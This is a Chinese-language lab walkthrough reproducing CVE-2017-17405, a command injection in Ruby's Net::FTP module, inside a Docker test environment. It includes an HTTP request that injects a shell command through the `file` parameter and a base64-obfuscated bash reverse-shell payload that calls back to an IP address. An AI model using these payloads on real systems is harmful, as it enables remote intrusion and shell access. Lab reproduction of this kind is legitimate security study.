 # Ruby Net::FTP 模块命令注入漏洞 CVE-2017-17405

## 漏洞描述

Ruby Net::FTP 模块是一个FTP客户端，在上传和下载文件的过程中，打开本地文件时使用了`open`函数。而在ruby中，`open`函数是借用系统命令来打开文件，且没用过滤shell字符，导致在用户控制文件名的情况下，将可以注入任意命令。

## 环境搭建

Vulhub编译及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080/`将可以看到一个HTTP服务。这个HTTP服务的作用是，我们访问`http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt`，它会从example.com:2121这个ftp服务端下载文件vulhub.txt到本地，并将内容返回给用户。

## 漏洞复现

因为这是一个FTP客户端的漏洞，所以我们需要先运行一个可以被访问到的服务端。比如使用python：

```
# 安装pyftpdlib
pip install pyftpdlib

# 在当前目录下启动一个ftp服务器，默认监听在`0.0.0.0:2121`端口
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

![image-20220228221133067](images/202202282211126.png)

然后即可开始利用漏洞。注入命令`|touch${IFS}awesome_poc.txt`（空格用`${IFS}`代替，原因不表），发送如下数据包即可（其中uri指定的ftp服务器就是我用python运行的一个简单的ftp server，其中无需放置任何文件）：

```
GET /download?uri=ftp://your-vps:2121/&file=|touch${IFS}awesome_poc.txt HTTP/1.1
Host: your-ip:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close
```

![image-20220228221337350](images/202202282213424.png)

然后进入docker容器内，可见awesome_poc.txt已被创建：

![image-20220228221433232](images/202202282214280.png)

执行反弹shell的命令，成功反弹：

```
|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo}|{base64,-d}|{bash,-i}'
```

![image-20220228221216580](images/202202282212651.png)

> kali中反弹失败，vps反弹成功，可能是因为kali的默认shell为zsh

